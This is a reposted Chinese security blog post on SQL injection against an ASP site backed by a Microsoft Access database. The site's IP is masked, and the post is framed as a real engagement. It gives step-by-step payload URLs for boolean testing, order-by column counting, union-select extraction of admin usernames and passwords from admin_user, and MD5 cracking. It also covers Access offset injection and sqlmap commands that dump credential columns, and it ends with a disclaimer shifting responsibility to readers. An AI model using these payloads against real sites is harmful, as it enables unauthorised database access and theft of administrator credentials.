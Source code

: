 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5NTU2NjA1Mw==&mid=2247503212&idx=1&sn=88f281f0ad37bbdd263bf1727f31e624

#  【攻防实战】实战中的Access注入  
原创 平凡安全  平凡安全   2025-06-21 12:00  
  
**「本是凡人成佛，何惧再做凡人」**  
## 「0.实战中的Access注入」  
  
访问漏洞url:  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQrExo89yLmFg3BL1wSfiaX4QGWRVMXrxib3lXb7ZndGXryiaqALSAXLXAw/640?wx_fmt=png&from=appmsg "")  
## 「1.Access联合查询」  
### 「判断是否有注入」  
  
and 1=1正常，and 1=2出错  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31%20and%201=2

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQia8dFgh1AFG04QiaptgFgOaRric64M1Bo1ibIrpsKnAbGaybUWXRn2FnIg/640?wx_fmt=png&from=appmsg "")  
### 「判断字段数」  

```
order by 7

```

  
正常  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQqHpjOuD7mKPicpTDTcL7eNoeQWt3icSccJ7mtkxzGltSMzaC5icJNbLgA/640?wx_fmt=png&from=appmsg "")  

```
order by 8

```

  
出错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQiafHqu3f7NrsUiciahWxiaRkJzWiadLztNkjmI68vTaibYOQU4nRxWiaUn3jg/640?wx_fmt=png&from=appmsg "")  
### 「爆破出表名」  
  
爆破出表名并判断回显点为2，5  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31 union select 1,2,3,4,5,6,7 from admin_user

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQCQ5YsAfjy6OhiahicTCAGP0SxStLgmc1ibZY1IZEZbcdsRbHMyEB8eicIg/640?wx_fmt=png&from=appmsg "")  
### 「查看字段内容」  
  
将字段名填入回显点  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31 union select 1,admin,3,4,password,6,7 from admin_user

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQXORhJFqdK8AxzNhljcTUNu2Yz14anQ5gV5ibDX7kP19Dv0M08NFMD4A/640?wx_fmt=png&from=appmsg "")  
### 「MD5解密」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQAlOiacqnfE1T2J71QMVkY3dmVeJsiaZ1nTzV3aDgIWiagFy7ibgdnGfaYg/640?wx_fmt=png&from=appmsg "")  
## 「2.Access偏移注入」  
  
按上面的步骤判断出表名和字段数之后开始使用偏移注入  
- **「偏移注入的基本公式」**  
：  
  
- **「联合查询所要补充的字段数 = 当前字段数量 - 目标表的字段数 x N（N=1,2...）」**  
【注意：“联合查询所要补充的字段数” 指的是union关键字后面的select查询所需补充的字段数】  
  
- 在此处即为：联合查询补充字段数 = 当前字段数量（22） - admin表的字段数（6） x N  
  
- 当N=1时我们称为 “1级偏移注入”，当N=2时我们称为 “2级偏移注入”；当N=3时我们称为 “3级偏移注入”，...  
  

```
偏移量就是逐步增加或递减，直到出现结果。*表示可代替的字符串，用*代替7，返回界面依旧报错，然后用*代替6，依次递减。7-2=5，5表示admin_user表中的列名个数。
```

  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31 union select 1,2,* from admin_user

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQKBYVr70a4ecdgnbJNpOxMEnG2xsbnibzSMJLnTUlDibBEkuZ1Lib0ibclg/640?wx_fmt=png&from=appmsg "")  
  
7-3=4，4表示admin_user_count表中的列名个数。  

```
http://xxx.xxx.xxx.xxx/index.asp?id=31 union select 1,2,3,* from admin_user_count

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQGbsgdSy6usxUl0LEsBeg8iarP9yvVpEsXO1A2Aqj0tSjG4VdcfozRvA/640?wx_fmt=png&from=appmsg "")  
## 「3.sqlmap工具注入」  

```
sqlmap.py -u http://x/index.asp?id=31 --tables --batch

```

### 「注入信息检测」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQkJHZlJyOSCribgaGFjU9vPoG5vboKUiaorrmgsWBddeibkgx8plhXbf3g/640?wx_fmt=png&from=appmsg "")  
### 「注入出表名」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQmvE15T1BfdqszlK33iaPjCibs2ymIDyWLib6PgAO1DDXpicNRWH9qquSrA/640?wx_fmt=png&from=appmsg "")  

```
sqlmap.py -u http://x/index.asp?id=31 -T x --columns --batch

```

### 「注入出字段名」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQ2acJRPywicQfyHictPlyjJ4P9Irvgr3DQbVs6LicP4fQflBXp8l3RpGkA/640?wx_fmt=png&from=appmsg "")  

```
sqlmap.py -u http://x/index.asp?id=31 -T x -C &#34;admin,password&#34; --dump --batch

```

### 「注入出字段的内容」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQ31D3oZa7mg1R0QibqYicYTG4vNdxI8BKyCjMJKw0cZMvmyClAKRRjhSg/640?wx_fmt=png&from=appmsg "")  
## 「攻防交流群」  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpwncLrt9icuCc6nPgiavglZXQ5ueJnnLaCFkcKibjvkL4KIxGszUFOO3KRmyXcfZlpibkWd25evIyuiaHg/640?wx_fmt=jpeg&from=appmsg "")  
## 「声明」  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：平凡安全 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
